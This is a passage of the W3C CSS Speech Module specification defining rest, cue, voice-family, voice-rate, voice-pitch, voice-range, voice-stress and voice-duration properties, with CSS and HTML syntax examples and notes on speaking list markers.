> **Note:** Although the functionality provided by this property is similar to the [`break` element](https://www.w3.org/TR/speech-synthesis11/#edef_break) from the SSML markup language [SSML], the application of `rest` prosodic boundaries within the aural box model of CSS Speech requires special considerations (e.g. interspersed audio cues, additive adjacent rests).

****`<time [0s,∞]>`****

: Expresses the rest in absolute time units (seconds and milliseconds, e.g. "+3s", "250ms"). Only non-negative values are allowed.

****none****

: Equivalent to 0ms. (No prosodic break is produced by the speech processor.)

****x-weak**, **weak**, **medium**, **strong**, and **x-strong****

: Expresses the rest by the strength of the prosodic break in speech output. The exact time is implementation-dependent. The values indicate monotonically non-decreasing (conceptually increasing) break strength between elements.

As opposed to [pause properties](#css-speech-1:pause-props), the rest is inserted between the element’s content and any `cue-before` or `cue-after` content. Adjoining rests are treated additively, and do not collapse.

#### 9.2.  The `rest` shorthand property {#css-speech-1:rest-props-rest}

| Field | Value |
| --- | --- |
| Name: | **rest** |
| [Value:](#css-values-4:value-defs) | `<'rest-before'>` `<'rest-after'>`? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `rest` property is a shorthand for `rest-before` and `rest-after`. If two values are given, the first value is `rest-before` and the second is `rest-after`. If only one value is given, it applies to both properties.

### 10.  Cue properties {#css-speech-1:cue-props}

#### 10.1.  The `cue-before` and `cue-after` properties {#css-speech-1:cue-props-cue-before-after}

| Field | Value |
| --- | --- |
| Name: | **cue-before**, **cue-after** |
| [Value:](#css-values-4:value-defs) | `<url>` `<decibel>`? \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `cue-before` and `cue-after` properties specify auditory icons (i.e. pre-recorded / pre-generated sound clips) to be played before (or after) the element within the [aural box model](#css-speech-1:aural-model).

> **Note:** Although the functionality provided by this property may appear related to the [`audio` element](https://www.w3.org/TR/speech-synthesis11/#edef_audio) from the SSML markup language [SSML], there are in fact major discrepancies. For example, the aural box model means that audio cues are associated to the element’s volume level; and CSS Speech’s auditory icons provide limited functionality compared to SSML’s `audio` element.

****`<url>`****

: The URL designates an auditory icon resource. When a user agent is not able to render the specified auditory icon (e.g. missing file resource, or unsupported audio codec), it is recommended to produce an alternative cue, such as a bell sound.

**none**

: Specifies that no auditory icon is used.

**`<decibel>`**

: Represents a change (positive or negative) relative to the computed value of the `voice-volume` property within the aural box model of the selected element. (As a result, the volume level of an audio cue changes when the `voice-volume` property changes). When omitted, the implied value computes to 0dB.

  When the computed value of the `voice-volume` property is `silent`, the audio cue is also set to `silent` (regardless of this specified `<decibel>` value). Otherwise (when not `silent`), `voice-volume` values are always specified relatively to the volume level keywords (see the definition of `voice-volume`), which map to a user-calibrated scale of "preferred" loudness settings. If the inherited `voice-volume` value already contains a decibel offset, the dB offset specific to the audio cue is combined additively.

  > **Note:** There is a difference between an audio cue whose volume is set to `silent` and one whose value is `none`. In the former case, the audio cue takes up the same time as if it had been played, but no sound is generated. In the latter case, the there is no manifestation of the audio cue at all (i.e. no time is allocated for the cue in the aural dimension).

> **Example:** s of property values:
>
> ```
> a
> {
>   cue-before: url(/audio/bell.aiff) -3dB;
>   cue-after: url(dong.wav);
> }
>
> h1
> {
>   cue-before: url(../clips-1/pop.au) +6dB;
>   cue-after: url(../clips-2/pop.au) 6dB;
> }
>
> div.caution { cue-before: url(./audio/caution.wav) +8dB; }
> ```

#### 10.2.  Relation between audio cues and speech synthesis volume levels {#css-speech-1:cue-props-volume}

*This section is non-normative.*

The volume levels of audio cues and of speech synthesis within the aural box model of a selected element are related. For example, the desired effect of an audio cue whose volume level is set at +0dB (as specified by the `<decibel>` value) is that its perceived loudness during playback is close to that of the speech synthesis rendition of the selected element, as dictated by the computed value of the `voice-volume` property. Note that a `silent` computed value for the `voice-volume` property results in audio cues being "forcefully" silenced as well (i.e. regardless of the specified audio cue <decibel> value)

The volume keywords of the `voice-volume` property are user-calibrated to match requirements not known at authoring time (e.g. auditory environment, personal preferences). Therefore, in order to achieve this approximate loudness alignment of audio cues and speech synthesis, authors should ensure that the volume level of audio cues (on average, as there may be discrete variations of perceived loudness due to changes in the audio stream, such as intonation, stress, etc.) matches the output of a speech synthesis rendition based on the `voice-family` intended for use, given "typical" listening conditions (i.e. default system volume levels, centered equalization across the frequency spectrum). As speech processors are capable of directly controlling the waveform amplitude of generated text-to-speech audio, and because user agents are able to adjust the volume output of audio cues (i.e. amplify or attenuate audio signals based on the intrinsic waveform amplitude of digitized sound clips), this sets a baseline that enables implementations to manage the loudness of both TTS and cue audio streams within the aural box model, relative to user-calibrated volume levels (see the keywords defined in the `voice-volume` property).

Due to the complex relationship between perceived audio characteristics (e.g. loudness) and the processing applied to the digitized audio signal (e.g. signal compression), we refer to a simple scenario whereby the attenuation is indicated in decibels, typically ranging from 0dB (i.e. maximum audio input, near clipping threshold) to -60dB (i.e. total silence). Given this context, a "standard" audio clip would oscillate between these values, the loudest peak levels would be close to -3dB (to avoid distortion), and the relevant audible passages would have average (RMS) volume levels as high as possible (i.e. not too quiet, to avoid background noise during amplification). This would roughly provide an audio experience that could be seamlessly combined with text-to-speech output (i.e. there would be no discernible difference in volume levels when switching from pre-recorded audio to speech synthesis). Although there exists no industry-wide standard to support such convention, different TTS engines tend to generate comparably-loud audio signals when no gain or attenuation is specified. For voice and soft music, -15dB RMS seems to be pretty standard.

#### 10.3.  The `cue` shorthand property {#css-speech-1:cue-props-cue}

| Field | Value |
| --- | --- |
| Name: | **cue** |
| [Value:](#css-values-4:value-defs) | `<'cue-before'>` `<'cue-after'>`? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `cue` property is a shorthand for `cue-before` and `cue-after`. If two values are given the first value is `cue-before` and the second is `cue-after`. If only one value is given, it applies to both properties.

> **Example:** of shorthand notation:
>
> ```
> h1
> {
>   cue-before: url(pop.au);
>   cue-after: url(pop.au);
> }
> /* ...is equivalent to: */
> h1
> {
>   cue: url(pop.au);
> }
> ```

### 11.  Voice characteristic properties {#css-speech-1:voice-char-props}

#### 11.1.  The `voice-family` property {#css-speech-1:voice-props-voice-family}

| Field | Value |
| --- | --- |
| Name: | **voice-family** |
| [Value:](#css-values-4:value-defs) | [ `<voice-family-name>` \| `<generic-voice>` ]# \| preserve |
| [Initial:](#css-cascade-6:initial-values) | implementation-dependent |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `voice-family` property specifies a prioritized list of component values that are separated by commas to indicate that they are alternatives. (This is analogous to `font-family` in visual style sheets.) Each component value potentially designates a speech synthesis voice instance, by specifying match criteria. See the [voice selection](#css-speech-1:voice-selection) section on this topic.

**`<generic-voice>`** = `<age>`? `<gender>` `<integer [1,∞]>`?

> **Note:** Although the functionality provided by this property is similar to the [`voice` element](https://www.w3.org/TR/speech-synthesis11/#edef_voice) from the SSML markup language [SSML], CSS Speech does not provide an equivalent to SSML’s sophisticated voice language selection. This technical limitation may be alleviated in a future revision of the Speech module.

****`<voice-family-name>`****

: Values are specific voice instances (e.g., Mike, comedian, mary, carlos2, "valley girl"). Like `font-family` names, voice names must either be given quoted as strings, or unquoted as a sequence of one or more CSS identifiers.

  > **Note:** As a result, most punctuation characters, or digits at the start of each token, must be escaped in unquoted voice names.

  If a sequence of identifiers is given as a voice name, the computed value is the name converted to a string by joining all the identifiers in the sequence by single spaces.

  Voice names that happen to be the same as the gender keywords (`male`, `female` and `neutral`) or that happen to match the CSS-wide keywords or `preserve` must be quoted to disambiguate with these keywords. The keyword `default` is reserved for future use and must also be quoted when used as voice names.

  > **Note:** In [SSML], voice names are space-separated and cannot contain whitespace characters.

  It is recommended to quote voice names that contain white space, digits, or punctuation characters other than hyphens—​even if these voice names are valid in unquoted form—​in order to improve code clarity. For example: `voice-family: "john doe", "Henry the-8th";`

****`<age>`****

: Possible values are **child**, **young** and **old**, indicating the preferred age category to match during voice selection.

  > **Note:** A recommended mapping with [SSML] ages is: `child` = 6 y/o, `young` = 24 y/o, `old` = 75 y/o. More flexible age ranges may be used by the processor-dependent voice-matching algorithm.

****`<gender>`****

: One of the keywords **male**, **female**, or **neutral**, specifying a male, female, or neutral voice, respectively.

  > **Note:** The interpretation of the relationship between a person’s age or gender, and a recognizable type of voice, cannot realistically be defined in a universal manner as it effectively depends on numerous criteria (cultural, linguistic, biological, etc.). The functionality provided by this specification therefore represent a simplified model that can be reasonably applied to a broad variety of speech contexts, albeit at the cost of a certain degree of approximation. Future versions of this specification may refine the level of precision of the voice-matching algorithm, as speech processor implementations become more standardized.

****`<integer>`****

: An integer indicating the preferred variant (e.g. "the second male child voice"). Only positive integers (i.e. excluding zero) are allowed. The value `1` refers to the first of all matching voices.

****preserve****

: Indicates that the `voice-family` value gets inherited and used regardless of any potential language change within the content markup (see the section below about voice selection and language handling). This value behaves as `inherit` when applied to the root element. Note: Descendants of the element automatically inherit the `preserve` value, unless it is explicitly overridden by other `voice-family` values (e.g. name, gender, age).

> **Example:** s of invalid declarations:
>
> ```
> voice-family: john/doe; /* forward slash character should be escaped */
> voice-family: john "doe"; /* identifier sequence cannot contain strings */
> voice-family: john!; /* exclamation mark should be escaped */
> voice-family: john@doe; /* "at" character should be escaped */
> voice-family: #john; /* identifier cannot start with hash character */
> voice-family: john 1st; /* identifier cannot start with digit */
> ```

##### 11.1.1.  Voice selection, content language {#css-speech-1:voice-selection}

The `voice-family` property is used to guide the selection of the speech synthesis voice instance. As part of this selection process, speech-capable user agents must also take into account the language of the selected element within the markup content. The "name", "gender", "age", and preferred "variant" (index) are voice selection hints that get carried down the content hierarchy as the `voice-family` property value gets inherited by descendant elements. At any point within the content structure, the language takes precedence (i.e. has a higher priority) over the specified CSS voice characteristics.

The following list outlines the voice selection algorithm (note that the definition of "language" is loose here, in order to cater for dialectic variations):

- If only a single voice instance is available for the language of the selected content, then this voice must be used, regardless of the specified CSS voice characteristics.
- If several voice instances are available for the language of the selected content, then the chosen voice is the one that most closely matches the specified name, or gender, age, and preferred voice variant. The actual definition of "best match" is processor-dependent. For example, in a system that only has male and female adult voices available, a reasonable match for "voice-family: young male" may well be a higher-pitched female voice, as this tone of voice would be closer to that of a young boy. If no voice instance matches the characteristics provided by any of the `voice-family` component values, the first available voice instance (amongst those suitable for the language of the selected content) must be used.
- If no voice is available for the language of the selected content, it is recommended that user agents let the user know about the lack of appropriate TTS voice.

The speech synthesizer voice must be re-evaluated (i.e. the selection process must take place once again) whenever any of the CSS voice characteristics change within the content flow. The voice must also be re-calculated whenever the content language changes, unless the `preserve` keyword is used (this may be useful in cases where embedded foreign language text can be spoken using a voice not designed for this language, as demonstrated by the example below).

> **Note:** Dynamically computing a voice may lead to unexpected lag, so user agents should try to resolve concrete voice instances in the document tree before the playback starts.

> **Example:** s of property values:
>
> ```
> h1 { voice-family: announcer, old male; }
> p.romeo  { voice-family: romeo, young male; }
> p.juliet { voice-family: juliet, young female; }
> p.mercutio { voice-family: young male; }
> p.tybalt { voice-family: young male; }
> p.nurse { voice-family: amelie; }
>
> ...
>
> <p class="romeo" xml:lang="en-US">
>   The French text below will be spoken with an English voice:
>   <span style="voice-family: preserve;" xml:lang="fr-FR">Bonjour monsieur !</span>
>
>   The English text below will be spoken with a voice different
>   than that corresponding to the class "romeo"
>   (which is inherited from the "p" parent element):
>   <span style="voice-family: female;">Hello sir!</span>
> </p>
> ```

#### 11.2.  The `voice-rate` property {#css-speech-1:voice-props-voice-rate}

| Field | Value |
| --- | --- |
| Name: | **voice-rate** |
| [Value:](#css-values-4:value-defs) | [ normal \| x-slow \| slow \| medium \| fast \| x-fast ] \|\| `<percentage [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to default value |
| [Computed value:](#css-cascade-6:computed) | a keyword value, and optionally also a percentage relative to the keyword (if not 100%) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-rate` property manipulates the rate of generated synthetic speech in terms of words per minute.

> **Note:** Although the functionality provided by this property is similar to the [`rate` attribute of the `prosody` element](https://www.w3.org/TR/speech-synthesis11/#edef_prosody) from the SSML markup language [SSML], there are notable discrepancies. For example, CSS Speech rate keywords and percentage modifiers are not mutually-exclusive, due to how values are inherited and combined for selected elements.

****normal****

: Represents the default rate produced by the speech synthesizer for the currently active voice. This is processor-specific and depends on the language and dialect, and on the "personality" of the voice.

****x-slow**, **slow**, **medium**, **fast** and **x-fast****

: A sequence of monotonically non-decreasing speaking rates that are implementation- and voice-specific. For example, typical values for the English language are (in words per minute) x-slow = 80, slow = 120, medium = between 180 and 200, fast = 500.

****`<percentage [0,∞]>`****

: Only non-negative percentage values are allowed. This represents a change relative to the given keyword value (see enumeration above), or to the default value for the root element, or otherwise to the inherited speaking rate (which may itself be a combination of a keyword value and of a percentage, in which case percentages are combined multiplicatively). For example, 50% means that the speaking rate gets multiplied by 0.5 (half the value). Percentages above 100% result in faster speaking rates (relative to the base keyword), whereas percentages below 100% result in slower speaking rates.

> **Example:** s of inherited values:
>
> ```
> <body>
>   <e1>
>     <e2>
>       <e3>
>         ...
>       </e3>
>     </e2>
>   </e1>
> </body>
>
> body { voice-rate: inherit; } /* the initial value is 'normal'
>                                  (the actual speaking rate value
>                                  depends on the active voice) */
>
> e1 { voice-rate: +50%; } /* the computed value is
>                             ['normal' and 50%], which will resolve
>                             to the rate corresponding to 'normal'
>                             multiplied by 0.5 (half the speaking rate) */
>
> e2 { voice-rate: fast 120%; } /* the computed value is
>                                  ['fast' and 120%], which will resolve
>                                  to the rate corresponding to 'fast'
>                                  multiplied by 1.2 */
>
> e3 { voice-rate: normal; /* "resets" the speaking rate to the intrinsic voice value,
>                             the computed value is 'normal' (see comment below for actual value) */
>      voice-family: "another-voice"; } /* because the voice is different,
>                                          the calculated speaking rate may vary
>                                          compared to "body" (even though the computed
>                                          'voice-rate' value is the same) */
> ```

#### 11.3.  The `voice-pitch` property {#css-speech-1:voice-props-voice-pitch}

| Field | Value |
| --- | --- |
| Name: | **voice-pitch** |
| [Value:](#css-values-4:value-defs) | `<frequency [0Hz,∞]>` && absolute \| [ [ x-low \| low \| medium \| high \| x-high ] \|\| [ <frequency [0Hz,∞]> \| `<semitones>` \| `<percentage>` ] ] |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to inherited value |
| [Computed value:](#css-cascade-6:computed) | one of the predefined pitch keywords if only the keyword is specified by itself, otherwise an absolute frequency calculated by converting the keyword value (if any) to a fixed frequency based on the current voice-family and by applying the specified relative offset (if any) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-pitch` property specifies the "baseline" pitch of the generated speech output, which depends on the used `voice-family` instance, and varies across speech synthesis processors (it approximately corresponds to the average pitch of the output). For example, the common pitch for a male voice is around 120Hz, whereas it is around 210Hz for a female voice.

> **Note:** Although the functionality provided by this property is similar to the [`pitch` attribute of the `prosody` element](https://www.w3.org/TR/speech-synthesis11/#edef_prosody) from the SSML markup language [SSML], there are notable discrepancies. For example, CSS Speech pitch keywords and relative changes (frequency, semitone or percentage) are not mutually-exclusive, due to how values are inherited and combined for selected elements.

****`<frequency [0Hz,∞]>`****

: A value in frequency units (Hertz or kiloHertz, e.g. `100Hz`, `+2kHz`). Values are restricted to positive numbers when the `absolute` keyword is specified. Otherwise (when the `absolute` keyword is not specified), a negative value represents a decrement, and a positive value represents an increment, relative to the inherited value. For example, `2kHz` is a positive offset (strictly equivalent to `+2kHz`), and `+2kHz absolute` is an absolute frequency (strictly equivalent to `2kHz absolute`).

****absolute****

: If specified, this keyword indicates that the specified frequency represents an absolute value. If a negative frequency is specified, the computed frequency will be zero.

****`<semitones>`****

: Specifies a relative change (decrement or increment) to the inherited value. The syntax of **`<semitones>`** allowed values is a dimension with the unit identifier `st` (semitones). A **semitone** interval corresponds to the step between each note on an equal temperament chromatic scale. A semitone can therefore be quantified as the difference between two consecutive pitch frequencies on such scale. The ratio between two consecutive frequencies separated by exactly one semitone is the twelfth root of two (approximately 11011/10393, which equals exactly 1.0594631). As a result, the value in Hertz corresponding to a semitone offset is relative to the initial frequency the offset is applied to. (In other words, a semitone doesn’t correspond to a fixed numerical value in Hertz.)

****`<percentage>`****

: Positive and negative percentage values are allowed, to represent an increment or decrement (respectively) relative to the inherited value. Computed values are calculated by adding (or subtracting) the specified fraction of the inherited value, to (from) the inherited value. For example, 50% (which is equivalent to +50%) with a inherited value of 200Hz results in `200 + (200*0.5)` = 300Hz. Conversely, -50% results in `200-(200*0.5)` = 100Hz.

****x-low**, **low**, **medium**, **high**, **x-high****

: A sequence of monotonically non-decreasing pitch levels that are implementation and voice specific. When the computed value for a given element is only a keyword (i.e. no relative offset is specified), then the corresponding absolute frequency will be re-evaluated on a voice change. Conversely, the application of a relative offset requires the calculation of the resulting frequency based on the current voice at the point at which the relative offset is specified, so the computed frequency will inherit absolutely regardless of any voice change further down the style cascade. Authors should therefore only use keyword values in cases where they wish that voice changes trigger the re-evaluation of the conversion from a keyword to a concrete, voice-dependent frequency.

Computed absolute frequencies that are negative are clamped to zero Hertz. Speech-capable user agents are likely to support a specific range of values rather than the full range of possible calculated numerical values for frequencies. The actual values in user agents may therefore be clamped to implementation-dependent minimum and maximum boundaries. For example, although the 0Hz frequency can be legitimately calculated, it may be clamped to a more meaningful value in the context of the speech synthesizer.

> **Example:** s of property values:
>
> ```
> h1 { voice-pitch: 250Hz; } /* positive offset relative to the inherited absolute frequency */
> h1 { voice-pitch: +250Hz; } /* identical to the line above */
> h2 { voice-pitch: +30Hz absolute; } /* not an increment */
> h2 { voice-pitch: absolute 30Hz; } /* identical to the line above */
> h3 { voice-pitch: -20Hz; } /* negative offset (decrement) relative to the inherited absolute frequency */
> h4 { voice-pitch: -20Hz absolute; } /* illegal syntax => value ignored ("absolute" keyword not allowed with negative frequency) */
> h5 { voice-pitch: -3.5st; } /* semitones, negative offset */
> h6 { voice-pitch: 25%; } /* this means "add a quarter of the inherited value, to the inherited value" */
> h6 { voice-pitch: +25%; } /* identical to the line above */
> ```

#### 11.4.  The `voice-range` property {#css-speech-1:voice-props-voice-range}

| Field | Value |
| --- | --- |
| Name: | **voice-range** |
| [Value:](#css-values-4:value-defs) | `<frequency [0Hz,∞]>` && absolute \| [ [ x-low \| low \| medium \| high \| x-high ] \|\| [ <frequency [0Hz,∞]> \| `<semitones>` \| `<percentage>` ] ] |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to inherited value |
| [Computed value:](#css-cascade-6:computed) | one of the predefined pitch keywords if only the keyword is specified by itself, otherwise an absolute frequency calculated by converting the keyword value (if any) to a fixed frequency based on the current voice-family and by applying the specified relative offset (if any) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-range` property specifies the variability in the "baseline" pitch, i.e. how much the fundamental frequency may deviate from the average pitch of the speech output. The dynamic pitch range of the generated speech generally increases for a highly animated voice, for example when variations in inflection are used to convey meaning and emphasis in speech. Typically, a low range produces a flat, monotonic voice, whereas a high range produces an animated voice.

> **Note:** Although the functionality provided by this property is similar to the [`range` attribute of the `prosody` element](https://www.w3.org/TR/speech-synthesis11/#edef_prosody) from the SSML markup language [SSML], there are notable discrepancies. For example, CSS Speech pitch range keywords and relative changes (frequency, semitone or percentage) are not mutually-exclusive, due to how values are inherited and combined for selected elements.

****`<frequency [0Hz,∞]>`****

: A value in frequency units (Hertz or kiloHertz, e.g. `100Hz`, `+2kHz`). Values are restricted to positive numbers when the `absolute` keyword is specified. Otherwise (when the `absolute` keyword is not specified), a negative value represents a decrement, and a positive value represents an increment, relative to the inherited value. For example, `2kHz` is a positive offset (strictly equivalent to `+2kHz`), and `+2kHz absolute` is an absolute frequency (strictly equivalent to `2kHz absolute`).

****absolute****

: If specified, this keyword indicates that the specified frequency represents an absolute value. If a negative frequency is specified, the computed frequency will be zero.

****`<semitones>`****

: Specifies a relative change (decrement or increment) to the inherited value as a semitone.

****`<percentage>`****

: Positive and negative percentage values represent an increment or decrement (respectively) relative to the inherited value. Computed values are calculated by adding (or subtracting) the specified fraction of the inherited value, to (from) the inherited value. For example, 50% (which is equivalent to +50%) with a inherited value of 200Hz results in `200 + (200*0.5)` = 300Hz. Conversely, -50% results in `200-(200*0.5)` = 100Hz.

****x-low**, **low**, **medium**, **high**, **x-high****

: A sequence of monotonically non-decreasing pitch levels that are implementation and voice specific. When the computed value for a given element is only a keyword (i.e. no relative offset is specified), then the corresponding absolute frequency will be re-evaluated on a voice change. Conversely, the application of a relative offset requires the calculation of the resulting frequency based on the current voice at the point at which the relative offset is specified, so the computed frequency will inherit absolutely regardless of any voice change further down the style cascade. Authors should therefore only use keyword values in cases where they wish that voice changes trigger the re-evaluation of the conversion from a keyword to a concrete, voice-dependent frequency.

Computed absolute frequencies that are negative are clamped to zero Hertz. Speech-capable user agents are likely to support a specific range of values rather than the full range of possible calculated numerical values for frequencies. The actual values in user agents may therefore be clamped to implementation-dependent minimum and maximum boundaries. For example: although the 0Hz frequency can be legitimately calculated, it may be clamped to a more meaningful value in the context of the speech synthesizer.

> **Example:** s of inherited values:
>
> ```
> <body>
>   <e1>
>     <e2>
>       <e3>
>         <e4>
>           <e5>
>             <e6>
>               ...
>             </e6>
>           </e5>
>         </e4>
>       </e3>
>     </e2>
>   </e1>
> </body>
>
>
>
> body { voice-range: inherit; } /* the initial value is 'medium'
>                                (the actual frequency value
>                                depends on the current voice) */
>
> e1 { voice-range: +25%; } /* the computed value is
>                              ['medium' + 25%] which resolves
>                              to the frequency corresponding to 'medium'
>                              plus 0.25 times the frequency
>                              corresponding to 'medium' */
>
> e2 { voice-range: +10Hz; } /* the computed value is
>                               [FREQ + 10Hz] where "FREQ" is the absolute frequency
>                               calculated in the "e1" rule above. */
>
> e3 { voice-range: inherit; /* this could be omitted,
>                               but we explicitly specify it for clarity purposes */
>
>      voice-family: "another-voice"; } /* this voice change would have resulted in
>                                          the re-evaluation of the initial 'medium' keyword
>                                          inherited by the "body" element
>                                          (i.e. conversion from a voice-dependent keyword value
>                                          to a concrete, absolute frequency),
>                                          but because relative offsets were applied down the style
>                                          cascade, the inherited value is actually the frequency
>                                          calculated at the "e2" rule above. */
>
> e4 { voice-range: 200Hz absolute; } /* override with an absolute frequency
>                                        which doesn't depend on the current voice */
>
> e5 { voice-range: 2st; } /* the computed value is an absolute frequency,
>                             which is the result of the
>                             calculation: 200Hz + two semitones
>                             (reminder: the actual frequency corresponding to a semitone
>                             depends on the base value to which it applies) */
>
> e6 { voice-range: inherit; /* this could be omitted,
>                               but we explicitly specify it for clarity purposes */
>
>      voice-family: "yet-another-voice"; } /* despite the voice change,
>                                              the computed value is the same as
>                                              for "e5" (i.e. an absolute frequency value,
>                                              independent from the current voice) */
> ```

#### 11.5.  The `voice-stress` property {#css-speech-1:voice-props-voice-stress}

| Field | Value |
| --- | --- |
| Name: | **voice-stress** |
| [Value:](#css-values-4:value-defs) | normal \| strong \| moderate \| none \| reduced |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `voice-stress` property manipulates the strength of emphasis, which is normally applied using a combination of pitch change, timing changes, loudness and other acoustic differences. The precise meaning of the values therefore depend on the language being spoken.

> **Note:** The functionality provided by this property is similar to the [`emphasis` element](https://www.w3.org/TR/speech-synthesis11/#edef_emphasis) from the SSML markup language [SSML].

****normal****

: Represents the default emphasis produced by the speech synthesizer.

****none****

: Prevents the synthesizer from emphasizing text it would normally emphasize.

****moderate** and **strong****

: These values are monotonically non-decreasing in strength. Their application results in more emphasis than what the speech synthesizer would normally produce (i.e. more than the value corresponding to `normal`).

****reduced****

: Effectively the opposite of emphasizing a word.

> **Example:** s of property values, with HTML sample:
>
> ```
> .default-emphasis { voice-stress: normal; }
> .lowered-emphasis { voice-stress: reduced; }
> .removed-emphasis { voice-stress: none; }
> .normal-emphasis { voice-stress: moderate; }
> .huge-emphasis { voice-stress: strong; }
>
> ...
>
> <p>This is a big car.</p>
> <!-- The speech output from the line above is identical to the line below: -->
> <p>This is a <em class="default-emphasis">big</em> car.</p>
>
> <p>This car is <em class="lowered-emphasis">massive</em>!</p>
> <!-- The "em" below is totally de-emphasized, whereas the emphasis in the line above is only reduced: -->
> <p>This car is <em class="removed-emphasis">massive</em>!</p>
>
> <!-- The lines below demonstrate increasing levels of emphasis: -->
> <p>This is a <em class="normal-emphasis">big</em> car!</p>
> <p>This is a <em class="huge-emphasis">big</em> car!!!</p>
> ```

### 12.  Voice duration property {#css-speech-1:duration-props}

#### 12.1.  The `voice-duration` property {#css-speech-1:mixing-props-voice-duration}

| Field | Value |
| --- | --- |
| Name: | **voice-duration** |
| [Value:](#css-values-4:value-defs) | auto \| `<time [0s,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `voice-duration` property specifies how long it should take to render the selected element’s content (not including [audio cues](#css-speech-1:cue-props), [pauses](#css-speech-1:pause-props) and [rests](#css-speech-1:rest-props) ). Unless the value `auto` is specified, this property takes precedence over the `voice-rate` property, and should be used to determine a suitable speaking rate for the voice. An element for which the `voice-duration` property value is not `auto` can have descendants for which the `voice-duration` and `voice-rate` properties are specified, but these must be ignored. In other words, when a `<time>` is specified for the `voice-duration` of a selected element, it applies to the entire element subtree (children cannot override the property).

> **Note:** The functionality provided by this property is similar to the the [`duration` attribute of the `prosody` element](https://www.w3.org/TR/speech-synthesis11/#edef_prosody) from the SSML markup language [SSML].

****auto****

: Resolves to a used value corresponding to the duration of the speech synthesis when using the inherited `voice-rate`.

****`<time [0s,∞]>`****

: Specifies a value in absolute time units (seconds and milliseconds, e.g. "+3s", "250ms"). Only non-negative values are allowed.

### 13.  List items and counters styles {#css-speech-1:lists}

The `list-style-type` property of [CSS2] specifies three types of list item markers: glyphs, numbering systems, and alphabetic systems. The values allowed for this property are also used for the counter() function of the `content` property. The CSS Speech module defines how to render these styles in the aural dimension, using speech synthesis. The `list-style-image` property of [CSS2] is ignored, and instead the `list-style-type` is used.

> **Note:** The speech rendering of new features from the CSS Lists and Counters Module Level 3 [CSS3LIST] is not covered in this level of CSS Speech, but may be defined in a future specification.

**`disc`, `circle`, `square`**

: For these list item styles, the user agent defines (possibly based on user preferences) what equivalent phrase is spoken or what audio cue is played. List items with graphical bullets are therefore announced appropriately in an implementation-dependent manner.

**`decimal`, `decimal-leading-zero`, `lower-roman`, `upper-roman`, `georgian`, `armenian`**

: For these list item styles, corresponding numbers are spoken as-is by the speech synthesizer, and may be complemented with additional audio cues or speech phrases in the document’s language (i.e. with the same TTS voice used to speak the list item content) in order to indicate the presence of list items. For example, when using the English language, the list item counter could be prefixed with the word "Item", which would result in list items being announced with "Item one", "Item two", etc.

**`lower-latin`, `lower-alpha`, `upper-latin`, `upper-alpha`, `lower-greek`**

: These list item styles are spelled out letter-by-letter by the speech synthesizer, in the document language (i.e. with the same TTS voice used to speak the list item content). For example, `lower-greek` in English would be read out as "alpha", "beta", "gamma", etc. Similarly, `upper-latin` in French would be read out as /a/, /be/, /se/, etc. (phonetic notation)

